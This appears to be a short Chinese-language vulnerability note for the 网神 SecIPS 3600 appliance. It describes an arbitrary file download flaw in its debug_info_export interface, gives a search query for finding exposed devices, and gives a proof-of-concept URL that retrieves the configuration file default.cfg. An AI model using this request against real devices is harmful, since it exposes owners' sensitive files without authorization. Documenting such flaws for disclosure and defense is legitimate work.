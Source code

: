 # 网神 SecIPS 3600 debug_info_export 任意文件下载漏洞

## 漏洞描述

网神 SecIPS 3600 debug_info_export接口存在任意文件下载漏洞，攻击者通过漏洞可以获取服务器敏感文件

## 漏洞影响

```
网神 SecIPS 3600
```

## 网络测绘

```
app="网神-SecIPS"
```

## 漏洞复现

登录页面

![image-20230314090018282](images/image-20230314090018282.png)

验证POC

```
/webui/debug/debug_info_export?filename=default.cfg
```

![image-20230314090033658](images/image-20230314090033658.png)